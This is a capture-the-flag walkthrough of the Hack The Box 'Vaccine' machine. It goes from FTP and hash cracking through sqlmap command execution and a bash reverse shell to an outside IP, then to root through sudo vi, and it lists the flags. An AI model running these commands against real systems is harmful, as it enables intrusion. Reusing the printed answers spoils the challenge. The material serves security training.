 # Vaccine
- Difficulty: Very easy

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.
![ip-address](img/ip-address.png)

## Task Breakdown
**1. Besides SSH and HTTP, what other service is hosted on this box?**
- Use `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]` to scan for open ports.
![nmap](img/nmap.png)
> **Answer:** FTP

**2. This service can be configured to allow login with any password for specific username. What is that username?**
- You can login into FTP without an account with username `anonymous` and password `anonymous@domain.com`  
![ano](img/anonymous.png)
> **Answer:** anonymous

**3. What is the name of the file downloaded over this service?**
- After logging in, list files and you see `backup.zip`. Download this one by `get` command.  
![get](img/get.png)
> **Answer:** backup.zip
- But now unzipping this file requires a password.  
![unzip](img/unzip1.png)

**4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?**
> **Answer:** zip2john
- Run `zip2john backup.zip > hash` to extract the hashed password.  
![zip2](img/zip2.png)
- Use **John The Ripper** to crack this hash string (you can also add wordlists if needed) and it returns `741852963` as the password we're looking for  
![john](img/john.png)
- Re-unzip this file using the cracked password, revealing 2 files: index.php and style.css  
![unzip](img/unzip2.png)

**5. What is the password for the admin user on the website?**
- In index.php, a hashed password for admin is found.  
```
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```
- Using **john** with RockYou wordlist, we get `qwerty789` as password for `admin`  
![john](img/johnadmin.png) 
> **Answer:** qwerty789

**6. What option can be passed to sqlmap to try to get command execution via the sql injection?**
- Run  `sqlmap -h` to list available options  
![os](img/os.png)
> **Answer:** --os-shell

**7. What program can the postgres user run as root using sudo?**
- In our scan report, we can see that this machine has port 80 open. Visit `http://[IP-Address]` and log in with `admin` and `qwerty789`. This leads to the Visit http://[IP-Address] and log in with admin and qwerty789. This leads to the Admin Dashboard.  
![dash](img/dash.png)
- This page shows a table with information such as name, type,... of cars, and also has a search box.
- When we type some text in this box and click **search**, the parameter in the URL will change to our text  
![search](img/search.png)
- Run `sqlmap -u 'http://[IP-Address]/dashboard.php?search=conmeo' --cookie 'PHPSESSID=[cookie-value]' --os-shell`. 
- If you run this command and encounter error like **unable to prompt for an interactive operating system shell via the back-end DBMS because stacked queries SQL injection is not supported**, add `--flush-session --time-sec=20` at the end. That works for me =)))) Read more [here](https://forum.hackthebox.com/t/machine-name-vaccine-stuck-on-getting-sql-code-execution-shell/2513/58)
![critical](img/critical.png)
- Now use **Netcat** to create a **Reverse Shell**
    - On our machine, run `nc -lvnp 4444`
    - On target machine (os-shell), run `bash -c "bash -i >& /dev/tcp/10.10.14.147/434 0>&1"` 
    ![ev](img/rev.png)
- Once connected, we can remotely excecute on the target machine. After wandering around, I found some file in `/var/www/html`
![cd](img/cd.png)
- Looking for **password** in `dashboard.php` and we have this `P@s5w0rd!`
![pw](img/pw.png) 
- SSH into PostgreSQL with `ssh @[IP-Address]`. Answer **yes** and enter the above password. Here we are using as user `postgres@vaccine`.
![ssh](img/ssh.png)
- Run `sudo -l` to find out all command we run as root. What we can see from the ouput is that we can use `vi` to edit a file
![vi](img/vi.png)

> **Answer:** vi

## Submit user flag
- The user flag should be located in `/var/lib/postgresql` directory  
![flag](img/flag.png)
- **User flag:** ec9b13ca4d6229cd5cc1e09980965bf7

## Submit root flag
- Now edit `/etc/postgresql/11/main/pg_hba.conf` with `vi`, then add: 
```
:set shell=/bin/sh
:shell
```
- This spawns a shell, allowing root access.  
![set](img/set.png)
- After that we can run as normal root user. The root flag is located in `root` directory
![flag](img/flag1.png)  
- **Root flag:** dd6e058e814260bc70e9bbdef2715849

